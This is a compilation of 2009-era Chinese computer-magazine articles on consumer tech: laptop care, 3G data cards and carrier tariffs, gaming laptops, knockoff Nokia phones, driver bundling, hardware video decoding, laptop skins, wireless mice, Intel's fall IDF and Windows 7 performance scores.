- 1.出风口不能有阻碍（尤其是喜欢侧卧使用本本的人），笔记本风扇肩负的任务非常繁重，一个畅通的出风口至关重要。你还要定期用毛刷清洁一下，或者是找笔记本维修处用压力枪吹吹灰尘。
- 2.键盘不要覆盖键盘膜，尤其是塑料机身的机型，覆盖键盘膜将导致热能堆积，对笔记本损伤尤其大。
- 3.不要将本本直接放在被子上使用，建议购买一个笔记本软垫垫上点为好。另外也不要将本本直接放在腿上，容易烫伤。
- 4.不要频繁整理硬盘碎片（使用FAT32格式的用户）或是让CPU、显卡处于满负荷运行，尤其是游戏一族，最好玩上一小时就要让本本休息一下，毕竟它的散热空间极为有限，不能像使用台式机那样对待。

## Go Go Go 3G攻略 达人速入

你3G了吗？"沃！G3很好很强大、天翼通强势登陆"，三个移动运营商都推出了全新的无线网络，原本用来通话的无线网络现在也具备无线上网的功能了。

不过，如果你想现在就用上高速无线上网，用Google Maps查看实时交通流量，随时随地上开心网，你就需要一个支持3G的设备。移动运营商提供了很多的选择，比如无线上网卡套餐，预存话费得3G上网本……3G强调的就是无线上网，但是，如果你手中有了上网本或是笔记本电脑，你还会再预存话费多要一个上网本吗？

## 3G能做什么呢？

2003年3月12日Intel发布了迅驰技术，还记得广告中那个在罗马角斗场无拘无束上网的家伙吗？相信我，那是扯淡，3G才能真正让你做到无拘无束——有手机信号的地方就有网络。

CMMB收费风波让一大堆人手中的数字电视设备成了摆设，网络电视才是正途，担心错过NBA季后赛？用3G网络在线直播不是很好的选择吗？

随时购物的快乐你体验过吗？没有的话来试试，随时随地，只要你肯掏出票子。

GPS导航仪能够实时查看路况吗？不能的话换用Google Maps试试看吧，GPS卫星可不提供这个服务。

## 3G哪个更好？

目前国内有三种3G网络标准，分别是移动TD-SCDMA (HSDPA)、联通WCDMA (HSPA)，电信CDMA2000 (EV-DO)。也就是说，从网络区分至少将有三种不同的配套设备对应。在此基础上，你还要选对要使用的设备，目前主要分成USB 3G无线上网卡、PCI-Express 3G无线上网卡及Mini PCI-E 3G模块三种，也就是说，至少一共有九类不同的产品供你选择。再加上三家提供的不同资费套餐……Orz，很容易让人晕头转向……

### 三大运营商的3G速度和资费标准对比

| | 中国移动 | 中国联通 | 中国电信 |
| :--- | :--- | :--- | :--- |
| 3G标准 | TD-SCDMA/HSDPA | WCDMA / HSPA | CDMA2000 EVDO |
| 理论下载速度 | 2.8Mbps (350KB/秒) | 7.2Mbps (900KB/秒) | 3.1Mbps (387KB/秒) |
| 按流量计费 | 50元包500MB | 全国统一标准： | 无 |
| | 100元包2GB | 每月150元包3GB (上网本) | |
| | 200元包5GB | 每月200元包5GB | |
| | 300元包10GB (上网本) | 每月300元包10GB | |
| | | (9月30日前半价优惠) | |
| 北京促销套餐： | 560元包7个月不限流量 | | |
| 按时长计费 | 北京促销套餐： | 无 | 每月100元(上网本) |
| | 每月60元包60小时本地 | | 80小时本地, 20小时全国 |
| | 每月120元包240小时本地 | | 北京促销套餐： |
| | | | 每月160元包300小时本地 |
| | | | 每月200元包200小时全国 |
| | | | 每月300元包360小时全国 |

## USB 3G无线上网卡

USB 3G无线上网卡的好处就是随便一个笔记本、甚至台式机都可以使用，随拿随用，方便至极。缺点也十分明显，额外的USB设备会缩短本本待机时间，而且装到笔记本上外露的设备也非常麻烦。对于那些老笔记本，也就是没有预留SIM卡插槽，也不提供扩展Mini PCI-E 3G模块的产品，USB无线上网卡无疑是最佳选择。“0元送上网设备，1元送上网设备”这样的促销固然吸引人，但也有不少人希望自己单独购买设备。一般来说，这类USB设备的价格在400元~500元之间。

## PCI-Express 3G无线上网卡

这类设备是目前最少见的，而且基本局限于联通的WCDMA制式及电信的CDMA2000制式，移动的TD-SCDMA制式产品几乎见不到。注意，PCI-Express规格分成34mm及54mm两种规格，购买的时候一定要看清自己的本本是哪一种规格的。从外形上就能区分开来。PCI-Express 3G无线上网卡的价格一般在350元左右，准内置，缺点同样是耗电，而且通用性不强，目前基本以水货产品居多。一般来说，PCI-Express 54规格的都是传统笔记本电脑，PCI-Express 34规格的多出现在12英寸的本本上，上网本则基本都取消了PCI-Express接口。

## Mini PCI-E 3G模块

Mini PCI-E 3G模块是最具有技术含量的一种3G上网卡设备了。因为什么呢？首先这类产品安装比较麻烦，另外就是大部分都是水货。但好处也极为明显，首先是全内置，在设备中选择关闭的情况下基本不耗电，而且不少2008年以后出品的笔记本电脑（尤其是很多上网本及超轻薄笔记本电脑）都预留有SIM卡槽及Mini PCI-E 3G模块安装位。

价格上，电信的CDMA2000产品最便宜——最低仅需要150余元，原因也很简单，国外的CDMA2000模块都是机卡一体，如果要将其利用在国内的网络环境中，还得自己写号方可使用，需要一定操作技巧。联通WCDMA的模块价格就贵些，从最便宜的250元到550元左右。这二者的设备多是国外产品，水货占据了绝对主导地位。有趣的是不少产品还整合了GPS芯片，也就是说笔记本也能用来导航了。此外，移动的TD-SCDMA模块无疑是价格最高的，目前主要有三个厂商生产，分别是联芯、中兴及华为的，价格在550元左右，基本都是拆机产品。

## 用3G真的很简单

USB 3G无线上网卡、PCI-Express 3G无线上网卡两种安装都十分容易，就不多说了。唯一麻烦的是Mini PCI-E 3G模块，毕竟前两者属于外设产品，Mini PCI-E 3G模块则属于内部配件了。预留有SIM插槽的机型，都会在机身内预留有Mini PCI-E安装槽位。它的接口规格与WiFi无线网卡所使用的接口规格一致。绝大多数具备3G网络扩展的本本，都可以通过拆除背板的方式将3G模块安装进去。安装的时候，将3G模块以30度斜角插入插槽，然后对外端两侧施加向下的压力，听到“咔”的一声，就说明安装到位了。

然后就是安装天线，同样十分容易。天线不分主次，但尽量选择将连根天线都安装上，这样可以保证信号接收能力最大化。进入系统后，安装3G无线上网卡的驱动程序。部分USB接口的3G无线上网卡甚至内置驱动程序，使用起来很方便，依照提示安装完毕后就可以使用了。

以移动的TD-SCDMA为例，在网络设置里面，选择“仅TD”模式，以免切换到GSM网络。当然，如果你所在地区的信号不够稳定，那么兼容多种模式是非常必要的。目前来看，网络环境最优秀的是电信的CDMA2000，它的覆盖程度最出色。打开软件，点击连接即可自动拨号上网，主界面有即时速率提示以及总流量数。注意！所有的流量套餐计费方式都是上行+下载的数据流量总和，而不是单纯的下载流量。这一点大家务必了解清楚。（文/TKD）

其实是很多上网本及超轻薄笔记本电脑都预留有SIM卡槽及Mini PCI-E 3G模块安装位。

## 玩《生化危机5》你需要啥本

最近以CAPCOM为首的众多厂商纷纷采用跨平台战略，让我等PC玩家也能享受到电视游戏大作的乐趣。像刚出来不久的《街头霸王4》虽然只有测试程序，但正式版已呼之欲出的《生化危机5》，以及2007年就出了测试Demo但正式版到今天才姗姗来迟的《狂野西部》，无不令人心动。为了能玩爽这些大作，一台足够好的本本自然是少不了的。

《生化危机5》是这三款游戏中对系统要求最高的，根据目前的测试程序，要想在1280×800这个宽屏笔记本的“标准分辨率”下达到中高等画质和最低30fps的帧数，则需要至少NVIDIA GeForce GT 130M或9650M GT这个档次的独立显卡。同为CAPCOM出品的《街头霸王4》则对配置要求稍微低了一些，而且格斗游戏对画质的要求也不像生化5那么高，只要不开抗锯齿或稍稍降低画质，甚至一些入门级独立显卡如HD4330，GT 105M之流也能达到基本流畅的效果。至于2007年就出了Demo的《狂野西部》，对显卡要求就更低了，GT 130M之类主流独立显卡甚至能在高分辨率、特效全高的设置下达到60fps以上，完全可以玩爽，毕竟是2007年的游戏嘛……不难看出，要想玩爽当前的新游戏，不推荐购买GT 130M以下显卡级别的本本，高不成低不就的入门独显只会让人感到鸡肋。下面就来推荐两款价格合理、工艺出色且性能优秀的游戏本本。

首先是火了一段时间的联想ideapad Y450A系列，这个系列采用1366×768分辨率的16:9屏幕，用来玩街霸4、生化5这样的跨平台游戏再合适不过，并且配备了HDMI输出接口，接上大屏幕平板电视的效果更加震撼。挑选时只要注意一点，其中有两个配置和外观都非常近似的Y450A-TFO型号，注意选GT 130M独立显卡那款(另一款是GT 110M的)，这一系列随配置不同，价格在4700元~5600元左右。

另一款华硕N50Q81Vn-SL的配置也毫不逊色，不但酷睿2 T8100的CPU性能更加强大，且搭配了1GB显存的9650M GT独立显卡也更适合在高分辨率下进行游戏。再有就是这款笔记本的屏幕为传统的1280×800 (16:10)，且尺寸达到了15.4英寸，视觉效果更加出色。同时蓝牙、指纹识别、200万像素摄像头等附件功能也十分全面，最近已然降价到了6000元以下，相当超值。

网络大补贴：《生化危机5》、《街头霸王4》、《狂野西部》游戏测试程序下载大集合 http://blog.cfan.com.cn/?uid-196050-action-viewspace-itemid-1144934

## 我们可以伪造 还能“创造”

上回书说到，当苹果的iPhone手机大红大紫之后，国内的橘子、鸭梨一拥而上，将这个市场折腾得乌烟瘴气，令人厌烦。而山寨厂商也极为人性化地没有忽略S60强大的后盾——Nokia这个用户群极高的品牌。

先来说说前段时间较为红火的Nokia首款触摸屏手机5800，最新版本的寨机在技术上明显优于此前发布的产品，其做工精度与用料质量上可以说一点也不输于原装机型。且在内置储存上也可谓不惜血本，双喇叭的震撼效果、磨砂质感的棕色后盖更不会让人察觉出丝毫的异样。纯屏触摸更是精度准确，除此之外更是模仿了5800的横屏菜单操作、照相，且有前后两个摄像头（5800正规行货是不带正面自拍摄像头的），内置GPS导航和新浪黑马炒股软件，以及艾米视频电话（原本是塞班的第三方视频软件，这次居然被山寨给内嵌入该机做为主打功能）。若不是

是包装上双卡双待的字样出卖了它，可以想象会有多少初次购买Nokia手机的人会上当受骗。在这里，请大家记住，在国外品牌中，具有双卡双待功能的手机仅有三星和LG推出的寥寥几款，且价格均超过4000元，其他品牌暂时还没有双卡双待这么山寨特色的功能。

说完了模仿，来说说山寨的创造力。曾有读者电话来问，现在N83的机器值得购买不？是不是正规行货？听到这里大家都很诧异，难道是Nokia神秘发布了雪藏的型号？最后电话确认和卖场走访发现，所谓的N83、N89、N98等产品只是山寨品牌借鸡下蛋而已，延顺着Nokia型号命名寨出来的产物。在这点上，还请有志购买Nokia产品的人多看看官方网站和我们杂志的介绍，JS们巧舌如簧，能把东施吹成西施，你信他？

## 单键拨号也会有你不知道的妙用

说到单键拨号功能，现在几乎每个手机上都会有，许多人只是将这个功能用来绑定常用的联系人，如家人、同事、酒友等。但是不知有没有想过单键拨号也会有其他的用途，改变下电话薄的输入方式，会有着奇妙的用处。

如果电话本的功能够强，如智能手机可以输入长达90个字符（联系人的姓名加上公司地址），也就是45个汉字，完全可以利用起来当作预约或者便签使用。它可以用来记录一些对时间要求不是很高的小事，要查询的时候只要按下键就可以了，如：买洗衣粉、交电费、给某某无良同事带东西等。

将联系人设置为：姓A1，名与单位名称为需要去做的事情，然后设置单键拨号，这样便可以随时随地查询到即将要做的事情，比起定制预约等功能，要方便很多。如果是还在上学的朋友们，按照这个方法将课程表的排列输出其中，并将每天按着A1、A2的顺序排列下去，随时查询第二天要上的课程，再也不用毛躁地翻书跑步了（之所以在联系人中将姓设置成A1、A2开头为的是将这些项目始终置于电话薄的顶端，方便更换或查阅）。

## 闪光灯不好用 一张白纸都搞定

某日，会议室中，Alpha同学拿着小白同学的理光GX100卡片机，努力拍摄着眼前的评测产品，但由于室内光线不好，不得不用起了内置闪光灯，但结果并没有好转，不用闪光灯，照片是黑乎乎的一片；用了闪光灯，照片中间又亮得过分，怎么弄都不是，急得满头是汗，因为责编大人又在催稿子了。

卡片机内置的闪光灯限于体积的原因，提供的闪光值实在有限，在大多数时候都是起到辅助或应急的作用。在使用Auto档或其他设置下拍摄固定物体不同的部位时，经常会出现以上的情况。如果仔细调整，费时费力不说，对于初入此道的用户来说无疑非常难受，嗯，后期调整图片也是个不错的办法，但也麻烦啊。有没有简单的办法呢？很简单的哦，找一张打印纸，普通的就可以，在确定一定会过曝的情况下，将纸张挡在闪光灯前方1cm~3cm之间，结果呢，拍出来的照片就不会中间发白、四周黯淡了。用白纸挡在闪光灯前面，不仅起到了抑制曝光过度的情况，还可以将闪光均匀地洒在被摄物体上。

Alpha：“那我有的时候照人，是不是也能用这样的办法呢？”这是当然可以的，不仅能达到上述的效果，不会把模特皮肤拍得过于油润，还能防止红眼呢！

## 打包才是王道 3A平台驱动一键安装

相信有不少用户使用着物美价廉的AMD处理器+AMD芯片组主板+AMD-ATI显卡，它们不但兼容性极佳、品牌统一，并且有着非常不错的性能。但每次重装系统都要忍受着催化剂驱动一次一次地Loading，为什么AMD不把它们打包再一次一次装好呢。既然如此我们自己动手吧。

- 1. 解压主板、显卡驱动到任意文件夹，双击驱动并安装，第一步就是询问你解压位置（一般为C:\ATI）保持默认或者解压到你指定的文件夹都可以。
- 2. 打开两个目录进行比对，发现它们的相同之处是都有“Bin、Bin64、Config、Images、Packages”这5个文件夹，复制这5个文件夹并合并，一般是复制显卡驱动目录的文件覆盖主板驱动目录的文件。
- 3. 点击合并后目录中的Setup文件，选择中文语言并点击下一步。
- 4. 点击安装按钮，并在下一步窗口中选择自定义，勾选所有组件并安装。

等到一次Loading后，并重启。一次性解决了多次安装的问题。怎么样，方便吧！

（文/许宁）

## 你的硬解谁做主

小菜：老板，我想看高清大片，听说有个什么硬解，我的CPU不好挺适合我的。现在啥显卡能硬解啊？

JS（偷笑）：你看你，老外了吧。现在是块显卡就能硬解，既然你主要看电影，不如把CPU也升级了吧。我这有G35+E5200的套装，还没一块显卡贵呢。

## 硬件解码，还未完全普及

要说这硬件解码其实很复杂，单单编码方式就有很多种，诸如MPEG-2、VC-1、H.264、WMV等等。不同的显卡也对不同的编码格式有着不同的支持。尤其是板载显卡对它们的支持程度往往是不完全的（这部分可以参考本期的《10分钟开启Intel GM45集成显卡的高清硬解》）。

## 你的显卡支持哪种格式的硬件解码

这个时候我们要用到一个小工具，它的原理是读取驱动程序，查看你的显卡的DXVA 2.0规范，以确定你的硬件解码支持度。
第一步：下载并运行Dxva Checker（下载地址：http://work.newhua.com/cfan/200916/dxvachecker.rar）
第二步：在运行的窗口中查看显卡支持的编码格式及分辨率。

## 支持硬解，并非完全硬解

可能很多用户还是有疑问，上面说到板载显卡支持度不完全是怎么回事呢？这直接的表现就是类似G35主板等板载显卡播放高清视频时CPU占用率维持在50%以上，而不是像其他显卡一样CPU占用率只有10%左右。

运行Dxva Checker，查看ModeVC1_IDCT等字样，其中VC1是指编码格式，而IDCT便是该显卡支持的硬件解码等级。
和性能有关的分为VLD、IDCT、MoComp（MC）、PostProc四个等级，级别划分为VLD>IDCT>MC>PostProc，当然支持最高等级的VLD是最好的，对于此种影片可以完全解码，CPU几乎占零占用，而如果不支持将会把多余的工作交给CPU去做。这样就会导致CPU占用率不会低至10%左右。
这样我们就可以确定一款显卡到底是完全支持硬解码，还是部分支持硬解码了。JS这个月的销售奖金估计又泡汤了……

（文/许宁）

## 堆料 你还差很远

2009年年初，PhenomII的发布是让人兴奋的开始，但随着度过年中DIY市场越发的疲软，下一代的显示芯片不断跳票，不仅让用户迷茫着等还是买，更是让板卡厂商开始了阔别已久的二次开发。

## 公版、马甲、二次开发三级跳

## 捆绑Windows 7 是谁拖住了硬件的后腿

不知不觉中，个人电脑由1971年的740kHz Intel 4004处理器到现在已经有28个年头了。而真正大踏步走入家庭的并不是由耳熟能详的奔腾开始，而是从图形用户界面（GUI）Windows 95开始。而奔腾+Windows95便成为了那个年代PC的代名词，Wintel联盟也从那时开始建立起来……

### 捆绑，由何而来？

从时间线上来看，重量级硬件产品的亮相年与操作系统的发布年有着一定规律的联系。是巧合或是阴谋，是联盟还是竞争？

### 细数历史，操作系统是硬件升级的最大推力

当1995年Windows 95推出时，用户的电脑功能有限，只能勉强处理一些简单任务，而WIN 95提供了强大的功能，并且在当时对PC硬件的要求相当苛刻。直接导致了随后而来的1997年PC销售额173%的迅猛增长。而1998年的Windows 98作为Windows 95的改进版也在网络泡沫来临前的一年内拉动了PC销售21.7%的增长。而后长盛不衰的Windows XP和口碑不佳的Windows Vista也一次又一次地刺激着整个PC市场的销售额。

### 新产品、新系统，厂商的小算盘打得精

既然操作系统的更新带来的是PC销售额的增长，那么由Wintel联盟的建立也能看出，软硬件的联合发布是利益最大化的驱使，也是双赢的战术。即使没有联盟，大家也会心照不宣的在这个时候双双发布新产品。

### ?Windows 7，它能否重现Windows XP的奇迹

历史：个人电脑产业的一片暗淡之中，执行官们在掰着手指等待2001年10月25日这一天（OEM客户发行时间），希望着一天能给他们带来一线曙光，因为这一天微软将发布Windows XP操作系统。由于第一季度PC销售额比去年下降了26%，包括惠普、Circuit City Stores等在内的各大公司领导人都把XP操作系统视为拉动PC市场的救星。

### 软件到位，硬件在哪里？

随着Windows 7的日益临近，各种RC、RTM版本如雨后春笋般冒出来，可这次除了Intel低调地宣传着i5、i3，其他厂商却按兵不动。为何会出现这种状况？难道Vista的失利，真的让所有人对Microsoft失去了希望？

### 金融危机硬件萎靡的始作俑者

在记者采访中，某AIC大厂工程师透露了些许让人感兴趣的消息：由于去年金融危机的出现，多数板卡厂商缩减了研发经费，有些甚至低至从前预算的15%。正是因为如此，除了Intel等少数大厂，今年的新品都围绕在对以往产品的改名、挖掘上。新架构、新理念在近两年内出现的频率也会低至历史低点。聚焦到国内市场，由于我们的核心领域研发能力不强，只能对现有老产品进行降价、重新包装、噱头和各式花样也会大量出现在市场上。

### 制程、工艺，横在芯片领域的一道大坎

制程是什么？简单地讲就是在硅晶圆上画画，谁画得越合理、线条越细、占用面积越小，谁的制程就领先。所以一般宽度来作为制程的单位。制程领先便意味着低功耗、高效能等等优点。芯片制造业从90nm转换到45nm只用了2年，而从65nm转换到32nm很可能3年的时间也远远不够。在这后面不为人知的是因为制程出现问题，很多产品的进度都受到了影响，更有甚者，重新设计乃至取消产品。

为何会出现制程转换的困难，那要从硅晶圆的制造上说起，毕竟航空航天大学的乔天乔教授作为芯片制造领域的资深人员指出：制程的转换存在着三个主要问题，一是微影技术的，二是电晶体漏电，三是导线阻抗。这三个问题不解决就意味着着以硅为制造材料的半导体业停滞不前。而现在45nm甚至Intel新的32nm工艺都在挑战着极限。

简单来讲，硅晶圆的制造更像是雕刻的艺术，在一块大石头上雕刻很简单，但在米粒上雕刻同样的东西就开始困难起来了。这就是第一个原因，微影技术。电路的复杂程度在不断的提高，而为了在同样的尺寸上塞下更多的东西，只能让雕刻越来越精细。放大来看，到了一定程度不但精细度的问题无法解决，而更像是让沙雕艺术家用沙子做螺丝钉。这就带来第二个问题，材料问题——电晶体漏电。再说第三点导线阻抗，便是很简单的物理原理，水管越来越小，水流动的阻抗便越来越大。

我们回头再来看看文章开始那张画满Windows Logo的大图，由于Windows的发售一次一次带来PC的大幅度增长，从Windows 95搭配Pentium MMX创造了疯狂的173%，到Vista搭配Core 2冷淡的10%，操作系统的更新无疑带领着硬件一次又一次的换代。

而此次Windows 7就在眼前，但硬件厂商却反应迟钝，是谁拖住了硬件的后腿？不是别人，是制程。拥有再好的芯片设计拥有再先进的理念，也无法逾越制程带来的鸿沟。

## 巧贴膜 保护本本自己动手

本本还贴膜？很多注重性价比的机型，外壳实在是太丑了，不贴个膜美化一下简直就不好意思拿出去见人。还有一些钢琴漆质的外壳表面，看着挺好，摸两下就原形毕露——简直就是指纹收集器，太恶心了。显然，贴膜是我们有时候一个很无奈的选择。……

### 选择适合的外壳贴膜很重要

市面上的外壳贴膜价格从几元到一百多元，有何差别？作为外壳贴膜首先是给本本足够的保护，耐磨性好，抗硬物划擦是必须的。几元钱的彩膜往往只有一小块，不能覆盖整个外壳，很不实用，只起到装饰作用。而20元左右的一些复合材质PVC膜，不怕指甲刮擦、防水、彩色图案印刷的工艺先进、不易掉色、性价比不错。如果能给自己的本本贴上喜欢的图案，比如动画角色、个人照片则会显得更加与众不同。当然需要多花一些费用，可以选择DIY贴膜，在复合材质的基础上加上电脑印染工艺，只需要向卖家提供喜欢的图片就可以了。这类产品材质自然最好，一般的硬物划上去不会有划痕，喜欢手感的朋友不妨挑选拓纹、皮纹效果的贴膜，胜在手感，外观大气，只是耐磨性一般，价格也最贵。另外在购买时需配合自己本本的尺寸，有标准膜适合13、14英寸机型，也可以买大一些的自己裁剪。

### 贴膜 五步独步江湖

- 1. **第一步：准备材料**
   软刮刀（可用尺子代替）、美术刀、擦镜布、喷水壶、直尺、外壳贴膜、洗涤灵（润滑作用），这些都是必不可少的工具。
- 2. **第二步：清洁膜内侧及笔记本表面**
   先使用擦镜布清理笔记本外壳表面，避免残留灰尘。之后使用有压力能产生水雾的喷壶，灌满清水，滴入几滴洗涤灵均匀混合，喷洒少量至膜的内侧。
- 3. **第三步：覆膜以水代劳**
   将膜平放置于外壳上，使用软刮刀将水和气泡从中间向四周擀压出，反复多次。及时擦干净擀压出的水，防止进入到屏幕外壳内部。
- 4. **第四步：剪裁边角**
   如果膜的大小不合适，裁剪之。将笔记本倒置放在平面上，使显示屏置于底面，用美术刀配合直尺把多余的边裁剪掉。四周的边角可以剪成圆弧形，更加牢固。
- 5. **第五步：避光通风凉干**
   一般时间在五小时左右即可，注意要放置在避光通风处，阳光直射对贴膜其实并没有好处。

## 给本本找个无尾宠物鼠

用笔记本电脑替代台式机早已成为趋势，不过本本的触摸板或指引杆用起来却着实不太方便，用来玩游戏则更是自虐，相信鼠标肯定是每个玩家为本本最先配备的外设。不过这鼠标要想用起来舒服、省心，还是得花心思挑选一番。

### 新奇玩意别上当

鼠标，最重要还是使用手感，在笔记本用鼠标的选择上，尽管存在着（为了手感）对手感的妥协，但也不意味着要妥协到底。目前市场上有一种手指鼠标，确实非常便携，而且使用也很方便——只要带在手指上就可以进行操作，但它的操作手感非常差劲。无论它的售价是18元还是25元，都不建议选择。

### 手感与便携要兼顾

有些人买笔记本鼠标时一味追求轻薄小巧，而忽视了手感。其实这完全是本末倒置的做法，比如说很时尚很便携的名片式超薄鼠标，真正用起来会令人又爱又恨。另外还有一些所谓的新奇造型鼠标，像桃心形什么的，握在手心里感觉会非常别扭，使用感受极其差劲，绝对不建议购买。

### 笔记本鼠标的必备“技能”

既然是给本本配鼠标，那必然是无线的，这个不用多说，但无线还分27MHz、2.4GHz和蓝牙三种。27MHz技术已经濒临淘汰，有效距离短、抗干扰能力差。2.4GHz是目前最主流的技术，无阻挡的时候，有效距离长达10~15米，推荐购买。至于蓝牙技术的无线鼠标，由于专利费等附加成本，价格普遍偏高。

说到接收器，无线鼠标的接收器已经开始分为两种“流派”，一种是鼠标本身可以固定或收纳接收器以免丢失；另一种则是以超小接收器（比USB接口大不了多少）长期占据笔记本电脑的USB接口——根本不需要拔下来。此外，蓝牙鼠标还能够直接利用本本内的蓝牙设备，免除外接收器。这两类鼠标在方便程度上差不多，如何选择就看个人喜好了。

### 不能忽略的小问题：

- 1. 本本这么娇贵，安全第一，切记断开电源，取下电池并在笔记本合上盖子之前放置一块吸水软布。
- 2. 担心洗涤灵损伤漆面？由于含量很小可以忽略不计，同时选择软材质的刮刀，避免伤害膜的表面。
- 3. 贴上去的膜总有要换下来时，如何清除那一层留在表面讨厌的粘胶？一块小橡皮沾些温水轻松清除。
- 4. 多了一层贴膜，是不是散热会不好呢？显示屏的热源是底部很小一部分电路和灯管，LED背光屏的发热量更小，不少本本其实是塑料外壳，平时使用时屏幕下端也仅有温热感而已，我的笔记本在室温23摄氏度环境下，贴上膜之后是26.9度，相比不贴的时候高出0.3度，显然贴膜对散热的影响不大。

## 专家解读：秋季IDF惊现4大亮点

2009年9月22日，一年一度的技术盛宴——英特尔秋季信息技术峰会（Intel Developer Forum，简称IDF）如期召开，短短的3天，9种新技术、11个新产品、5个新名词让我们眼花缭乱。到底哪些技术能真正提高人们的生活质量？英特尔资深架构经理赵军博士应《电脑爱好者》之邀，点评了会议四大亮点：22纳米时代到来，CPU整合成潮流，i7进驻笔记本，无处无线高清。种种迹象表明，聚焦移动生活是本次会议的真实目的。

## 摩尔定律再显神威！

22日，英特尔公司总裁兼首席执行官保罗·欧德宁（Paul Otellini）展示了世界上第一款基于22纳米制程技术的工作芯片的硅晶圆。它包括SRAM存储器和逻辑电路，将用于未来的英特尔处理器中。保罗·欧德宁同时表示英特尔22纳米技术现在处于全速发展阶段，按既定计划在2010年推出新的微架构，然后隔年推出新的微架构，总是交替进行）推进到下一代。

此次发布的22纳米技术表明摩尔定律继续有效，相比现有的45纳米技术，晶体管更小，每个晶体管性能（性能/瓦）更高，成本更低。更高性能处理器不仅可以做的更小，更省电，发热量将比现在的处理器小一半，最直观的感受就是，高端CPU价格平民化，平时使用起来风扇会更安静。

笔记本CPU会更小，更快，更省电，当某一天当笔记本待机时间超过手机，速度不输给台式机时，真正无线上网的时代便不远了。

> 赵军：“普通消费者更关注电脑的够轻、够薄、够薄，性能更高，使用还要简单。然而生产高效便携的移动设备，离不开微型芯片的工艺进步，摩尔定律是计算机发展的基础。”

## 比CULV更轻薄？

22日，英特尔公司执行副总裁兼英特尔架构事业部总经理马宏升（Sean Maloney）演示了一个基于Westmere的电脑，Westmere是英特尔的第一款32纳米处理器，具有历史性意义，因为这款英特尔处理器首次把图形芯片整合到处理器封装中，Westmere已经按计划进入晶圆生产阶段，并计划在今年第四季度开始批量生产。

32纳米CPU很快面市，一块晶圆能够切割更多的处理器，降低成本的同时配合第二代高K金属栅极晶体管将会极具优势，多半会主要应用在低功耗的CULV笔记本产品，届时现有的45纳米CPU由于功耗大、热量大，成本高会进一步降价。而内置GPU的Arrandale可以智能控制GPU部分与CPU部分的功耗比，在高性能与低耗能之间轻松切换，在CPU忙不过来时GPU还能辅助CPU进行一些简单的运算。

集成了一款图形芯片！这给了我们除NVIDIA与AMD之外的第三选择，未来高度集成化后笔记本可能只是一个小小方块，那么办公、娱乐生活还会局限在桌子上么？

> 赵军：“Arrandale集成了北桥的显示功能，这只是开始，当CPU集成主板大部分功能后，整体平台功耗降低，制造比CULV更轻薄的产品成为可能。”

## 笔记本i7时代到来！

23日，英特尔执行副总裁兼英特尔架构事业部总经理浦大卫（Dadi Perlmutter）在此次峰会上发表的主题演讲也标志着三款针对笔记本电脑的全新超快速、智能型英特尔酷睿i7处理器的首次亮相。此外，针对上网本、手持设备、智能手机和车载计算机的开源操作系统项目也得到扩充，开发者只需编写一次应用程序即可使其运行在Windows和Moblin设备上，包括PC、电视机和手机等。

今后笔记本掌托上只会有Core i7或Core i5的标签，华硕、戴尔、联想、惠普等主流OEM厂商将陆续推出基于英特尔酷睿i7移动处理器的笔记本电脑，而目前市场上的高端笔记本会相应降价。针对微软Silverlight的操作系统支持明年初也会扩展到包括Moblin，另外Moblin系统开源化，编程高手会为我们带来众多免费的实用软件。

笔记本的酷睿i7来了，i5和i3还会远么？强大的运算性能以及更加轻薄便携的笔记本，将会给台式机市场不小的冲击。

> 赵军：“迅驰已去，酷睿品牌将成为笔记本的主流，产品线也要比现在更加丰富。Moblin系统在功能强调简单、易用，在超便携设备上也会得到广泛应用，首先是MID和手机的系统。”

## 看无线高清？

24日，英特尔高级副总裁兼首席技术官贾斯汀（Justin Rattner）表示，到2015年，预计将有150亿个消费电子设备能够提供电视内容，而可供播放的视频内容则可达到数十亿小时。我们将需要更精妙的方式来组织内容，并提供给观众。

在未来的消费电子设备，例如电视，将不会仅仅只是放置于你的卧室。它可能被放在你的口袋中；未来的电视将采用滚动CE4100处理器，不要小看CE4100，它能够硬件解码两个1080p视频流以及3D图形加速功能，把它装在数字电视、DVD播放器和高级机顶盒上，如果再搭配WINMAX技术的4G无线上网卡，上网速度将是目前国内3G移动电话数据传输速率50倍。“最大的数据传输速率将超过100Mbit/s，电脑、电视将会融合为一体。

4G网络可以在乘坐地铁时，出门旅游时无线观看高清电影、高清电视节目。然而高速网络的发展，还是要看消费者能否负担起流量费用。

> 赵军：“CE4100是划时代的产品，将过去整台电脑实现的功能集成在处理器中，英特尔将要打造交互性、高速化的全新客厅体验。简化机顶盒、播放器等设备，它是高清电视标准化的开始，也是加速高清时代的到来催化剂。”

## 采访手记

采访过程中，赵军博士对这次IDF深入犀利的分析，使记者对未来两年技术的变化充满期待，未来高性能电脑的出现，更多的是对工作生活的改变，真正改变娱乐生活的是智能家电的一体化，电视上网看高清不再依靠HTPC，英特尔的MID准备在超便携设备市场拼出一席之地；Larrabee显卡提出的全新GPU架构正在冲击着现有显卡市场，种种大刀阔斧的动作之下，显示出英特尔致力于更好地体验生活的决心。畅想之余，不要惊异于未来科技的高速进步，未来移动生活已经扬帆启航。

## Windows 7看得分买电脑可行吗

Vista的名声可不太好，不过它的系统综合评分功能还不错，不仅可以让用户对本本的性能有非常直观的了解，知道自己机器的瓶颈所在，还可以给其他购机用户以参考。而Windows 7，这个被连连叫好的微软下一代操作系统自然也继承了该功能，不仅如此，在Windows 7中系统综合评分功能还被扩展和延伸，使得这个评分标准更加细化，更具有指导性，在一定程度上避免误导用户进行一些不必要的硬件升级，某种程度上讲，看得分买电脑，确实是可行的一种方式。

## Windows 7的评分标准

Windows 7和Vista的系统综合评分功能是靠Windows 体验索引（Windows Experience Index）即WEI为标准评判的，是微软为方便用户了解计算机硬件的性能而设置的一款简明评测工具。

WEI在Vista中将测试分数分为5个等级，在Windows 7中则细化为7个，不仅评分区间从1.0-5.9扩展为1.0-7.9，还增加了更多的评分点，例如增加了CPU的核心数（并行能力），更大的内存和带宽，DirectX等测试项目。虽然需要测试的项目多了，但Windows 7却不会像Vista运行那么久。

并且，同一台电脑分别安装Windows 7和Vista，得到的分数也不尽相同。相比之下，Windows 7的分数会更趋于Vista，如T61笔记本电脑，CPU部分相差0.9分，并出现了6.0这样Vista下不可能出现的分数，而在游戏图形上也有一定的分数变化。

## T6400能得4.9分

